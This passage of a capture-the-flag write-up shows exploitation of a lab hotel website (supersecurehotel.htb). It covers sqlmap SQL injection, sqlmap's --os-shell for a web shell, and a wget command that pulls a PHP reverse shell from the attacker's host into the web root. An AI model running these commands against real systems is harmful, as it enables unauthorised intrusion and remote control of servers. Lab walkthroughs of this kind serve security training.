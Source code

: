 We found two ports, 22 running OpenSSH and port 80 is an Apache web server. Both services are on a Debian machine.

### Web

Let's navigate to the website.

![](1.png)

This is a hotel's website, we discover the domain `supersecurehotel.htb`, let's add it to `/etc/hosts`.

Going through the website pages we find a booking page that uses a parameter in the request `http://supersecurehotel.htb/room.php?cod=6`

![](2.png)

#### SQLMap

Let's give the url to `sqlmap` and see if the website is vulnerable to `sql injection``.

```bash
sqlmap -u 'http://supersecurehotel.htb/room.php?cod=1' --batch
```

![](3.png)

It's vulnerable!

## **Foothold**

I Dumped the database but there is nothing useful there.

Since the website uses php, let's write a php web shell with the help of `--os-shell` option in `sqlmap`

```bash
sqlmap -u 'http://supersecurehotel.htb/room.php?cod=1' --batch --os-shell
```

![](4.png)

Great! We got command execution, but the we don't have a full shell yet. To do that we can upload a php reverse shell to the target.

First we setup an http server on our machine using python:

```bash
python3 -m http.server 80
```

Now We put a php reverse shell on the directory where we run the python server.

> The php shell i used is Ivan's php shell, you can find it [here](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

On the target machine we run the command `wget {AttackerIp}/shell.php`, which uploads the shell to the `/www/var/html` directory which is the root directory for the target's website. 
